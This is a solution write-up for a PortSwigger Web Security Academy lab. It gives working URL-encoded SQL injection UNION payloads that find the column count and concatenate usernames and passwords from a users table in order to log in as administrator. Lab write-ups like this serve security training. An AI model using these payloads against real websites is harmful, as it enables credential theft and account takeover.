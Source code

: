 # Lab: SQL injection UNION attack, retrieving multiple values in a single column
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The database contains a different table called users, with columns called username and password.

To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user.

## Solution
This lab shows, that we can concatenate multiple columns of the data type string into one column. First have to check the columns itself again:
```
https://0a2c002e0467b30182a4b1e9009f007c.web-security-academy.net/filter?category=Accessories%27%20union%20select%20null,null%20--
https://0a2c002e0467b30182a4b1e9009f007c.web-security-academy.net/filter?category=Accessories%27%20union%20select%20null,%27a%27%20--
```

So we now know that we have two columns and only one of them contains text. To still get username and password we can concatinate these columns into one and also use a seperator:
```
https://0a2c002e0467b30182a4b1e9009f007c.web-security-academy.net/filter?category=Accessories%27%20union%20select%20null,username%20||%20%27;%27%20||%20password%20from%20users%20--
```

This will create a SQL statement like this:
```sql
SELECT name, description FROM products WHERE category = 'Accessories' UNION SELECT NULL,username || ';' || password FROM users --
```

As expected we get the users:
![Successful UNION attack](../images/SQL_injection_UNION_attack_retrieving_multiple_values_in_a_single_column.png)

To solve the lab we have to login on the website as the administrator.
